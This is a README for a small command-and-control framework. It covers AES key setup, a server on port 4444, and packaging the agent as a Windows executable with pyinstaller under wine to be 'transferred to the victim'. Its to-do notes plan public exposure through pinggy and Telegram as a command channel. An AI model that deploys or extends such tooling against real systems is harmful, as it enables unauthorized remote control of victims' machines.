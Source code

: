 # G-r00t C2 project

## Disclaimer

This Command and Control (C2) tool is developed solely for educational and research purposes. It is intended to help users understand the principles of C2 communication, cybersecurity testing, and network security in a controlled and lawful environment.

### Usage Policy

This tool is strictly for learning and authorized testing purposes only.
Unauthorized use against any system, network, or individual without explicit permission is illegal and strictly prohibited.

The author does not condone, endorse, or support any malicious activities. Misuse of this tool to target networks, systems, or devices without consent may result in legal consequences. The author and contributors assume no responsibility for any damages or legal issues caused by misuse.
Responsible Usage

By using this tool, you agree to use it responsibly and legally within the bounds of ethical hacking, training, or research in a controlled environment.

## Encryption setup

This C2 framework uses AES encryption for communication.
The first step is to generate the secrets (key and IV) and add them to the agent and sevrer python script. 
To generate the secrets you can use the provided secretsGenerator.py script. 

Once the secrets are generated you will need to add them to agent.py and server.py

## Server

The server by default lsiten to 0.0.0.0:4444.
You can change this in the variables host and port.
Once done you can just run it with python.

## Agent cross-compiling 

To crosscompile the agent for Windows I used wine. 
You can follow this guide to setup Python and pyinstaller in wine: 

https://www.makeworld.space/2021/10/linux-wine-pyinstaller.html

Once the environment in wine is setup you will need to install the requirements:

```
wine C:/path/to/python.exe -m pip install -r requirements.txt
```

To compile the agent you can run:

```
wine C:/path/to/Scripts/pyinstaller.exe --onefile --add-binary "C:/path//to/python38.dll;." --name agent agent.py
```

Once the agent is compiled, you will find the executable in the dist/ folder.  
You can now transfer it to the victim and use it by specifying the IP and PORT of the server:

```
agent.py <SERVER_IP> <SERVER_PORT>
```



## To do list:

**Helper**
https://chatgpt.com/share/6733b8ee-d4ac-8000-8573-da71ae7c6e1d


## Step 3: Integrate pinggy and Test Encrypted Communication

    Expose C2 Server with pinggy:
        Use pinggy to expose your C2 server with a public IP and port.
        Configure the agent to communicate with the public IP and port from pinggy, and test the secure (AES-encrypted) communication between the agent and server.

    Testing:
        Test the encryption and decryption functions separately to confirm they work correctly.
        Simulate command exchanges, ensuring that commands are encrypted by the server, decrypted by the agent, and that responses follow the same path securely.

## Step 4: Implement Telegram as an Additional Channel

Since Telegram’s API is JSON-based, integrating it with a C agent is more complex. You could either:

    Write a separate Python/C# process to handle Telegram communication, then interface this with the C-based agent.
    Use a lightweight HTTP library in C (like libcurl) to directly communicate with Telegram’s API if you want a pure C solution, though it may involve considerable work parsing JSON responses.

Example Workflow for Telegram Integration

    Send Commands via Telegram:
        Write a simple server process (in Python or any high-level language) that takes commands via a Telegram bot.
        Have this server relay commands to your C2 server, which then relays encrypted commands to the C agent.

    Receive Responses via Telegram:
        Alternatively, for a pure C setup, use Telegram’s getUpdates endpoint via HTTP requests to poll for messages from the bot, then execute these commands in your C agent.

## Extra functionalities

Upload download files sunctionalities